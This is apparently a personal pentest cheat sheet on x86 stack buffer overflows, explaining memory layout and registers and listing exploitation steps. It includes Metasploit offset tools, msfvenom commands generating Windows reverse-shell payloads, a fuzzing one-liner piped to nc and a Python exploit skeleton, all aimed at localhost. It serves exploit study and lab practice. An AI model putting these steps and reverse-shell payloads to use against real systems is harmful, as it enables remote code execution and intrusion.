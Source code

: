 # x86 Stack Buffer Overflow Steps    
Resources:      
https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst    
[TCM: Buffer Overflows Made Easy](https://www.youtube.com/watch?v=ncBblM920jw)     
[Vulnerable Functions](https://int0x33.medium.com/day-49-common-c-code-vulnerabilities-and-mitigations-7eded437ca4a)    
[Red Team Notes - x32 Stack Based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/stack-based-buffer-overflow)    
Buffer overflow: memory corruption exploit.     
Memory corruption exploit: if an attacker can control the size parameter and source data when memory is copied. Memory manipulation operations with badly sanitized user input, no size restrriction.    

## Anatomy of Memory     
```
Higher memory addresses 
--- Kernel ---
--- Stack ---  
--- Heap ---
--- BSS --- 
--- Data ---
--- Text ---
Lower memory addresses  
```   
Stack: LIFO (last in, first out), memory addresses grow down, contains function values (stack frames) need for the program to function. Instruction Pointer: registers that store the next instruction to execute.     
Heap segment: memory the programmer can control. Can be allocated and used, grows smaller or larger as needed. The memory within the heap is managed by allocator and deallocator algorithims, reserve a region of memory in the heap for use / remove perms to allow that portion of memory to be reused for later reservations. Heap will grow or shrink depending on how much memory is reserved for use.        
Data and bss segments: store global and static program vars. Data segment: filled with initialized global and static vars, bss is filled with unintialized. writeable segments with a fixed size, allows global and static vars to persist.           
Text / code segment: a fixed size segment, where assembled machine language instructions of the program are located.
      
Stack before overflow:      
```
High memory address ("base of stack")
-- Main()'s stack frame -- 
-- Arguments --   
-- Return address -- 
-- EBP (base pointer for the current stack frame) -- 
-- Local variables -- 
Low memory address ("top of the stack" - ESP)   
```
Stack after overflow:    
```
High memory address  
-- Shellcode --   
-- ESP --  
-- &jmp esp -- 
-- Overflow -- 
Low memory address ("top of the stack")
```

Stack frame: EBP register (or frame pointer (FP) / local base (LB) pointer) is used to reference local function variables in the current stack frame. Each stack frame contains the parameters to the function, its local variables, and two pointers that are neccessary to put things back the way they were: the saved frame pointer (SFP) and the return address. The SFP is used to restore EBP to its previous value, and the return address is used to restore EIP to the next instruction found after the function call.     
EIP - points to the next instruction for the CPU to execute.     
EBP - points to the base of the current stack frame (used as a reference point).    
ESP - points to the "top" of the stack.       

## What You Need    
- A vulnerable executable.
- A debugger such as GDB/GEF or Immunity Debugger (OS / platform dependant).
- A testing enviroment with the same architechure as the target.   
- Helpful tools: MsfVenom for generating payloads, pwntools Python library.    

## General Stack Buffer Overflow Steps   
Buffer overflow: an attacker can overflow a memory buffer by writing data to it without the program using bound checking to limit this from happening. This can affect not only the buffer but adjacent memory. An attacker can sometimes get remote code execution or privilege escalation.       

1. Identify the architechure for the binary and any protections on it (NX, ASLR, etc). 
2. Identify a segmentation fault causing a program to crash by fuzzing a program.    
    python -c "print('A'*200)" | nc 127.0.0.1 10000    
3. Test the ability to overwrite EIP and control program execution.
    3a. Note EIP value after a crash using a debugger.     
4. Identify the amount of bytes needed to overflow the program and overwrite EIP (the offset).   
    4a. Use a pattern to calculate the offset by supplying it as input to the program and noting the value of EIP.     
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300   
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value at EIP>
5. Note if the injected code is written onto the stack - if so EIP can force execution to ESP to then execute shellcode.    
6. Generate or write shellcode. If necessary, exclude common bad characters like \x00, \x0A, \x0D. Bad chars often corrupt the next byte after them so just take the first one in a sequence of 2.     
    msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python    
7. Test the program for bad characters by creating a bytearray of chars from \x01 to \xff, injecting the characters and looking at the memory dump of the memory lcoation pointed to by EIP after the crash.       
All possible chars:     
    for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"    
Generate a payload without bad chars:     
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python -b 0x0a    
8. Control the overwrite - jump to a specific location and execute code there. One way to do this: find a 'jmp esp' instruction in the program that will ensure the shellcode on the stack will be executed and overwrite EIP with the memory address of this value.    
9. Insert padding (NOPs) as needed to ensure the exploit is more reliable (more room for error).

General buffer overflow exploit payload (this may need tweaking):      
Offset characters + return address (will overwrite EIP) + NOPs for padding + shellcode   

Common C vulnerable functions: strcpy(), stpcpy(), gets(), strcat(), strcmp(), sprintf().       

Exploit skeleton code:    
```
import socket, sys
#connect to a vulnerable server and send a payload - can also craft exploit using pwntools   
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 10000))
# send A's
buf = b"A"*268      #multiple by the offset  
# overwrite EIP with string RETN
buf += b"RETN"
# shellcode
buf += b"SHELLCODE"
# send payload
sock.send(buf)
sock.close()
```   
## Payload Considerations   
### Bad Chars   
Common bad chars: 0x00, 0x0A, 0x0D. Test for bad chars by sending all possible hex characters to the vulnerable app and checking to see if the characters are mangled. Different memory allocations have different operations and checks on the data stored in them.             
Options to deal with bad chars:   
- Encode the payload to exclude bad chars.   
- Partial instruction pointer overwrite   
- NEG asm instruction: subtract from 0 to get a negative value without null bytes.   

## Dealing with Limited Space for Your Shellcode   
Check the stack to see how much space for the shellcode you have.    
Methods to deal with limited shellcode space:  
- Use smaller shellcode with less features.  
- Inject shellcode somewhere in memory, use an egghunter to find the shellcode in memory and execute it. 
- Socket reuse. 
  
  Egghunter: small first stage payload that searches a processes virtual address space for a tag then executes the code after it. Need to handle access violations that could come up when searching memory.     
  [Safely Searching Process Virtual Address Space](https://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)